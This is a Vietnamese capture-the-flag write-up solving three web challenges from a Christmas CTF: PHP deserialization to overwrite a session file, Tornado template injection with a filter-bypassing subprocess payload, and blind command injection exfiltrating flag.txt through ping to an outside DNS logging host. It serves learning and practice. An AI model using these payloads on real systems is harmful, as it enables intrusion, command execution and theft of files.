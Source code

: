 # LUCKY BOIZ

## PHÂN TÍCH

Đây là một bài về lỗi php deserialize.

``` 
if(isset($_SESSION["user"])){
    if($_SESSION["user"]==="santa_claus ")  echo "".$flag;
}
```
Ta thấy để có flag thì $_SESSION["user"] phải bằng với "santa_claus "

Bài này nó cho phép ta gửi 1 tham số là ser trong get request sau đó deserialize giá trị này.
```
if (isset($_GET['ser'])) unserialize($_GET['ser']);
```
Đây là class secret mà để cho , giờ ta tìm cách để sau khi unserialize ta có $_SESSION["user"] = "santa_claus "

![](images/2021-12-25-06-55-04.png)

```
   __toString sẽ được gọi khi object được xử lí như một string 

   __destruct sẽ được gọi khi một object bị huỷ đi or không còn đƯợc sử dụng 

   Tham khảo: https://www.php.net/manual/en/language.oop5.magic.php

```
Và mục tiêu của ta là ghi vào file /tmp/sess_PHPSESSIONID vì file này lưu những giá trị của biến $_SESSION (mỗi user sẽ có một cái khác nhau) và thay đổi nó thành giá trị "santa_claus ". Và định dạng được lưu trong file này là dạng serialize

Vd: nếu $_SESSION["user"] = "d47" thì nội dung của file sẽ là: `user|s:3:'d47';`


## KHAI THÁC

```
<?php
class secret {
}

$s = new secret();
$s->yoursecret = $s; // Để trigger hàm __toString nó sẽ trả về kết quả là $secret1 sẽ bằng $secret
$s->descript = "user|s:12:'santa_claus ';"; // Nội dung của file sesion mà ta muốn ghi
$s->filename = "sess_eabe6fc0553da759da5383b2d5d24e9d"; // Tên file sẽ được ghi vào

var_dump(serialize($s)); 
```
` FLAG: ChristCTF{Nô-en-Zui-zẻ-nhe!,Mấy-bạn-có-gấu-chưa-chứ-tui-có-gấu-rồi-đó} flag gây tổn thương sâu sắc đến ae đang chơi :((`

# Mini Con cu lay tờ 

## PHÂN TÍCH

Đề cho ta một cái ô input và ta sẽ nhập giá trị và sau đó sẽ tính toán kết quả trả về, sau một hồi fuzz thì mình thấy nó dính SSTI, mà phía backend đang code bằng python . Lúc đầu mình bị mắc chỗ này lâu vc, vì nghĩ là nó đang sài template là jinja2, nhưng méo phải nó đang sài tornado

Vậy giờ kiếm payload của thằng này để lấy flag thôi.

## KHAI THÁC

` PAYLOAD: eval('__import__("subpr"+"ocess").getoutput("ls")')` do đề filter chữ subprocess nên ta cộng chuỗi ở đấy để bypass

![](images/2021-12-25-07-10-56.png)

` FLAG: ChristCTF{M1N1_G1FT_4_XMA5} `

# CaptureME

## PHÂN TÍCH

Bài này chỉ có endpoint duy nhất nên ta chỉ cần tập trung vào mình nó.

![](images/2021-12-25-07-17-32.png)



Mình thấy cái hàm `inetChecksite` này khá lạ và nó thuộc package `systeminformation`, kiểm tra version của nó trong file `package.json`, sau đó gu gồ , thì thấy thằng này có dính lỗi `command injection`. Nhưng trong bài này là dạng `blind commnad injection` vì output sẽ không được trả ra.


Tới đây mình nghĩ sẽ tạo một reverse-shell, nhưng đều failed vì trên phía server đã chặn hết các giao thức. Ban đầu mình sử dụng curl để gửi request đến server của mình thì ok, nhưng sau đó dùng curl để upload file `flag.txt` thì đã bị chặn or filter.
Sau một hồi fuzz thì mình tìm đến `DNS`, vì hầu như ứng dụng web nào cũng đều hỗ trợ giao thức `DNS`. 


Nhưng mà loay hoay một hồi mình sài lệnh nslookup, dig, host, blabla nó vẫn ko work. Cuối cùng sài lệnh `ping` thì lại oke .
## KHAI THÁC

`` PAYLOAD: http://45.119.84.224:4000/CaptureSite?url[]=$(ping%20`cat%20flag.txt`.ekiajtf3.requestrepo.com)``

` FLAG: ChristCTF{R3v3r53_5h3ll_i5_v3ry_345y_5738246dhcbw}`

### Cuối cùng xin cảm ơn câu lạc bộ ATTT của đại học PTIT đã tạo ra sân chơi hữu ích vào đúng dịp Noel, để ae ko có gấu vào chơi cho đỡ buồn.
